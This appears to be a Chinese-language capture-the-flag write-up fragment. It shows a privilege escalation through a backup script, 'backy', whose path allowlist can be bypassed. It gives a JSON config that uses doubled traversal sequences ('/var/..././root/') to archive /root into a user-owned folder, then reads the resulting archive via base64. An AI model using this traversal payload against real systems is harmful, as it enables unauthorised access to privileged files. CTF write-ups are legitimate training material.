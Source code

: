 ```
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```
哎，这个其实是一个开源的东西，github可以找到，类似备份，可以看到禁用了目录穿越，但是只是替换成空格，那么`双写绕过`就行了，除了这个方法，还可以写`.json`老老实实的写
```
{
  "destination": "/home/martin/backups",
  "verbose_log": true,
  "directories_to_sync": [
    "/var/../root/"
  ],
  "directories_to_archive": [
    "/var/..././root/"
  ]
}
```
去读`root`的全部路径到`backup`，然后发现生成的`.tar.gz2`包`root`才可以读，哎，怎么办呢？
`base64`是个伟大的东西，可以把整个文件转成base64，然后去本地解密成`.tar.gz2`，也就是`base64 -d encoded.txt > 1.tar.gz2`，然后解压得到flag